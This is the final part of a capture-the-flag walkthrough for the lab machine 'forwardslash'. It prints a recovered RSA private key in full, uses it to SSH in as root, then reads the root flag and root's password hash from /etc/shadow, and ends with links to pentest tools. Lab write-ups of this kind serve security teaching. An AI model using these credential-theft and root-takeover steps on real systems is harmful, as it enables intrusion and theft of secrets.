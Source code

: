 ```
pain@forwardslash:/tmp/cyfun2$ cat mnt/id_rsa
-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEA9i/r8VGof1vpIV6rhNE9hZfBDd3u6S16uNYqLn+xFgZEQBZK
RKh+WDykv/gukvUSauxWJndPq3F1Ck0xbcGQu6+1OBYb+fQ0B8raCRjwtwYF4gaf
yLFcOS111mKmUIB9qR1wDsmKRbtWPPPvgs2ruafgeiHujIEkiUUk9f3WTNqUsPQc
u2AG//ZCiqKWcWn0CcC2EhWsRQhLOvh3pGfv4gg0Gg/VNNiMPjDAYnr4iVg4XyEu
NWS2x9PtPasWsWRPLMEPtzLhJOnHE3iVJuTnFFhp2T6CtmZui4TJH3pij6wYYis9
MqzTmFwNzzx2HKS2tE2ty2c1CcW+F3GS/rn0EQIDAQABAoIBAQCPfjkg7D6xFSpa
V+rTPH6GeoB9C6mwYeDREYt+lNDsDHUFgbiCMk+KMLa6afcDkzLL/brtKsfWHwhg
G8Q+u/8XVn/jFAf0deFJ1XOmr9HGbA1LxB6oBLDDZvrzHYbhDzOvOchR5ijhIiNO
3cPx0t1QFkiiB1sarD9Wf2Xet7iMDArJI94G7yfnfUegtC5y38liJdb2TBXwvIZC
vROXZiQdmWCPEmwuE0aDj4HqmJvnIx9P4EAcTWuY0LdUU3zZcFgYlXiYT0xg2N1p
MIrAjjhgrQ3A2kXyxh9pzxsFlvIaSfxAvsL8LQy2Osl+i80WaORykmyFy5rmNLQD
Ih0cizb9AoGBAP2+PD2nV8y20kF6U0+JlwMG7WbV/rDF6+kVn0M2sfQKiAIUK3Wn
5YCeGARrMdZr4fidTN7koke02M4enSHEdZRTW2jRXlKfYHqSoVzLggnKVU/eghQs
V4gv6+cc787HojtuU7Ee66eWj0VSr0PXjFInzdSdmnd93oDZPzwF8QUnAoGBAPhg
e1VaHG89E4YWNxbfr739t5qPuizPJY7fIBOv9Z0G+P5KCtHJA5uxpELrF3hQjJU8
6Orz/0C+TxmlTGVOvkQWij4GC9rcOMaP03zXamQTSGNROM+S1I9UUoQBrwe2nQeh
i2B/AlO4PrOHJtfSXIzsedmDNLoMqO5/n/xAqLAHAoGATnv8CBntt11JFYWvpSdq
tT38SlWgjK77dEIC2/hb/J8RSItSkfbXrvu3dA5wAOGnqI2HDF5tr35JnR+s/JfW
woUx/e7cnPO9FMyr6pbr5vlVf/nUBEde37nq3rZ9mlj3XiiW7G8i9thEAm471eEi
/vpe2QfSkmk1XGdV/svbq/sCgYAZ6FZ1DLUylThYIDEW3bZDJxfjs2JEEkdko7mA
1DXWb0fBno+KWmFZ+CmeIU+NaTmAx520BEd3xWIS1r8lQhVunLtGxPKvnZD+hToW
J5IdZjWCxpIadMJfQPhqdJKBR3cRuLQFGLpxaSKBL3PJx1OID5KWMa1qSq/EUOOr
OENgOQKBgD/mYgPSmbqpNZI0/B+6ua9kQJAH6JS44v+yFkHfNTW0M7UIjU7wkGQw
ddMNjhpwVZ3//G6UhWSojUScQTERANt8R+J6dR0YfPzHnsDIoRc7IABQmxxygXDo
ZoYDzlPAlwJmoPQXauRl1CgjlyHrVUTfS0AkQH2ZbqvK5/Metq8o
-----END RSA PRIVATE KEY-----
```

This must be the root SSH key.

```
$ chmod 600 id_rsa_root
$ ssh root@forwardslash.htb -i id_rsa_root
```

Let's grab the loot!

```
root@forwardslash:~# cat root.txt
12c0583823e80694824b9dd3e6c2ae93

root@forwardslash:~# cat /etc/shadow | grep root
root:$6$daB3I84E$NnzV4cHTAgWsPGWoBKLO2W6NotitrAk6udeTh0cxvXWHIkDXZQtss13QP2gTgFOMdIYdQ8CtvSxzznHI.nVmW.:18326:0:99999:7:::
```

[burp]:https://portswigger.net/burp
[nmap]:https://nmap.org/
:
[ffuf]:https://github.com/ffuf/ffuf
[xxeserv]:https://github.com/staaldraad/xxeserv
[PEASS]:https://github.com/carlospolop/PEASS-ng
